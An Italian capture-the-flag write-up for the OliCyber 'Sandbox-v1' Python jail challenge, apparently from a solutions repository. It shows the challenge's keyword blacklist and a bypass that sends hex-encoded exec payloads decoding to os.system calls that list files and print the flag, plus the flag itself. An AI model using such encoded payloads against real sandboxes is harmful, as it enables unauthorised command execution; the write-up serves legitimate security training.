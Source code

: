 # Sandbox-v1.py
![challenge](challenge.png)
### Challenge:
##### Ho fatto questa sandbox in python, ho messo in una blacklist tutte le parole pericolose, ora non dovrebbe esserci modo di leggere il file con la flag.

##### Puoi collegarti al servizio remoto con:
##### ```nc sandbox_v1.challs.olicyber.it 35003```

##### Files: [sandbox-v1.py](sandbox-v1.py)

### Solution:
Una semplice pyjail con una blacklist, inoltre non abbiamo open builtin:

```python
# keep all the builtins except open
safe_builtins = {
	k:v for k,v in __builtins__.__dict__.items() if k != "open" 
}
blacklist = ['import', 'os', 'system', 'subproces', 'sh', 'flag']
```

Per bypassare la blacklist ho optato per utilizzare la rappresentazione esadecimale delle varie lettere.
```bash
$ nc sandbox_v1.challs.olicyber.it 35003
Python 3.10.12 (main, Jun 11 2023, 05:26:28) [GCC 11.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
(RestrictedConsole)
>>> exec("\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x6c\x73\x27\x29")
chall
flag
>>> exec("\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x63\x61\x74\x20\x66\x6c\x61\x67\x27\x29")
flag{LOWER_upper_3scap3_Fr0m_j@il}
```

I due payload corrispondono rispettivamente a:

```python
__import__('os').system('ls')
__import__('os').system('cat flag')
```

Flag: ```flag{LOWER_upper_3scap3_Fr0m_j@il}```
